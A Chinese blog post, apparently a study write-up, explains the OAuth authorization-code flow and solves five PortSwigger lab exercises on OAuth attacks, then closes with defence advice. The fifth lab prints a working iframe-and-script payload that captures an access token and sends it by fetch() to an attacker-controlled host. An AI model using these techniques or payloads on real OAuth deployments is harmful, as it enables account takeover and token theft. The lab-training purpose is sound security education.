



OAuth是如今一种比较流行的授权机制，虽然已经出现很久了，但是一直没有详细了解过攻击手法，今天就来学习一下。

## OAuth简介
一个简单的图解，侵删


[阮一峰大佬的博客](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)说的挺清晰的了，这里就不细讲了，就用授权码的方式举一个OAuth实际应用的例子。

下面是一个用到GitHub OAuth的地方：`https://sec.today`


登陆成功，省去了重新注册的时间


看一下相关请求是什么，点击`用GitHub登录`后，从浏览器发起了第一个请求：`https://sec.today/oauth/login/github/`

重定向到GitHub进行登录：`https://github.com/login/oauth/authorize?client_id=dad4bf1a56b861bac810&redirect_uri=https%3A%2F%2Fsec.today%2Foauth%2Fcomplete%2Fgithub%2F%3Fredirect_state%3DH2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&response_type=code`

在GitHub登录完成后，返回授权码`code`，附在上一步填的`redirect_uri`后面：`https://sec.today/oauth/complete/github/?redirect_state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw&code=1c02c1234d182db57bd5&state=H2g8QSKxOx64x7TN7G4y0zFtMW5XgxVw`

最后，`sec.today`带着授权码拿到我们`GitHub`账号的信息，我们就用`GitHub`的身份完成了在`sec.today`上的登陆


## PortSwigger靶场
### 【LAB 1】Authentication bypass via OAuth implicit flow

题目要求：在`implicit`形式的OAuth中进行认证绕过

`implicit`方式的所有操作都是在客户端完成，最后认证完成得到的`access_token`也是会返回到客户端，所以只需要把`access_token`绑定为任意需要操作的用户即可

点击登录


返回`access_token`


把`access_token`和任意用户绑定


### 【LAB 2】Forced OAuth profile linking

题目要求：获取`admin`权限（`admin`已登录第三方应用，且会访问我们构造的任何链接）

所以很明显是要`CSRF`了，根据OAuth的流程可以知道，我们要做的就是用我们的OAuth信息去绑定`admin`的第三方应用的账号

首先先用我们自己的账号进行OAuth登录，可以看到返回了一个`code`，但这个时候要把这个请求拦截下来，构造完`CSRF Payload`后drop掉，然后让`admin`去访问


当`admin`访问后，完成绑定。然后我们再以自己的账号做OAuth登录，即可得到`admin`权限


### 【LAB 3】OAuth account hijacking via redirect_uri

题目要求：获取`admin`权限（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

构造`CSRF Payload`，`redirect_uri`设置为我们可控的地址


得到`admin`的`code`，直接登录


`admin`权限


### 【LAB 4】Stealing OAuth access tokens via an open redirect

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

这题跟上一题差不多，就是`redirect_uri`做了一些校验，然后OAuth用`implicit`模式了

`redirect_uri`不能任意指定了，试了几种方式似乎都不行，然后发现`/post/next`有重定向漏洞，且url路径检查可用`/../`绕过，这个问题解决；然后系统的`access_token`是放在url的`fragment`中的，所以我们的payload需要把它提取出来，最终结果如下：


`admin`访问后得到`access_token`


用`access_token`拿到`admin`的`apikey`


### 【LAB 5】Stealing OAuth access tokens via a proxy page

题目要求：获取`admin`的`apikey`（`admin`已登录OAuth服务，且会访问我们构造的任何链接）

url校验沿用了上一题的方式，然后重定向漏洞没有了。注意到评论的页面`/post/comment/comment-form`，有一个向`父页面`发送自己url的操作，所以如果我们可以让`admin`访问OAuth登录的链接，就会把`access_token`发到评论页面，然后评论页面就会把`token`传到我们的恶意父页面


构造payload
```html
<iframe src="https://ac431f851f15ecdb807b43d102b500f3.web-security-academy.net/auth?client_id=j77c7udyz47s8jpf2mwu7&redirect_uri=https://acc41f8d1ff7ecd9800b438f009000bf.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
<script>
    window.addEventListener("message",function(e){
        var token=e.data.data;
        fetch("https://aca51ffb1f26ec2680814365018400cb.web-security-academy.net/"+btoa(token));
    },false);
</script>
```
接收到数据


解码得到token


## 防御
OAuth服务提供者需要让第三方应用提供url的白名单、用`state`等参数防止类CSRF攻击、确认最后请求的`scope`是跟最开始的请求是一致的

第三方应用也要用`state`防止CSRF、注意`code`通过`Referer`泄漏，此外移动端、桌面应用可能会包含`client_secret`，所以需要`PKCE`对`code`进行保护

[ietf的草稿](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)中还提到了一些其他的攻击场景，像`PKCE
 downgrade attack`、`307 redirection`等等，有合适的机会再研究一下

## 参考
- [https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html](https://www.ietf.org/id/draft-ietf-oauth-security-topics-16.html)
- [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
- [http://www.ruanyifeng.com/blog/2019/04/oauth_design.html](http://www.ruanyifeng.com/blog/2019/04/oauth_design.html)
